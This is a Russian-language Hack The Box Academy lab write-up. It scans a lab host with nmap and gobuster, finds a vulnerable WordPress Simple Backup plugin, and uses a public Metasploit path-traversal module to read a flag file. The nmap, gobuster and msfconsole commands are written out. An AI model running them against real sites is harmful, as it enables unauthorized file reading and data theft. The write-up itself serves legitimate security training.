

# Hack The Box Academy: Public Exploits Writeup

| **Тема** | Public Exploits |
| :--- | :--- |
| **Модуль** | Getting Started |
| **Сложность** | Easy (Лёгкий) |
| **Вектор атаки** | Web / WordPress Plugin Exploitation |
| **Уязвимость** | CVE-2015-10134 (Path Traversal) |
| **ОС** | Web-based Parrot Linux (Pwnbox) |

---

## 1. Сбор информации (Reconnaissance)

### Сканирование портов
Первоначальное сканирование с помощью nmap не дало результатов — вероятно, из-за нестабильного сетевого соединения или ограничений целевой машины (хост блокировал ICMP-запросы).

```bash
nmap -sV -sC  154.57.164.73 -p 32077 -Pn
```
 
###	Перебор директорий 

с помощью gobuster:

```bash
gobuster dir -u http://154.57.164.73:32077 --wordlist /usr/share/dirb/wordlists/common.txt
```

В ходе перебора было найдено /wp-included и множество стандартных конфигурационных файлов. Но в поиске флага они не нашли применения.

Откроем целевой IP-адрес http://154.57.164.73:32077 в браузере. На сайте обнаруживается установленный плагин Simple Backup Plugin 2.7.10 для WordPress.

**Результаты сканирования:**
* **Порт:** `32077/tcp` (Apache 2.4.41 Ubuntu)
* **CMS:** WordPress 5.6.1
* **Найденный компонент:** `Simple Backup Plugin 2.7.10`

---

## 2. Поиск эксплойта и использование уязвимости

Попробуем найти готовый эксплойт для найденных версий ПО. Поиск в локальной базе searchsploit по запросам `WordPress 5.6.1 Simple Backup Plugin 2.7.10` не дал подходящих результатов.
Через WPScan исследуем уязвимости `WordPress 5.6.1`.

Поиск информации в интернете о плагине `Simple Backup 2.7.10` выявил критическую уязвимость CVE-2015-10134:

`Simple Backup <= 2.7.10 - Arbitrary File Download via Path Traversal`

Эта уязвимость позволяет осуществлять произвольное чтение файлов (Arbitrary File Download) через уязвимость типа Path Traversal (выход за пределы директории).

На github найден готовый модуль для Metasploit: `wp_simple_backup_file_read.rb`:

https://github.com/rapid7/metasploit-framework/blob/79a6d23d6f547b931bf87d26394787011e878b8c/modules/auxiliary/scanner/http/wp_simple_backup_file_read.rb

Запустим msfconsole в терминале и настроим модуль:

>> use auxiliary/scanner/http/wp_simple_backup_file_read
 ```msf
msf6 > use auxiliary/scanner/http/wp_simple_backup_file_read
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RHOSTS 154.57.164.73
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RPORT 32077
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set FILEPATH /flag.txt
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > run
```

---

## Результаты



Прочитаем сохраненный файл (команда cat), содержащий флаг:

`HTB{my_***_***}`
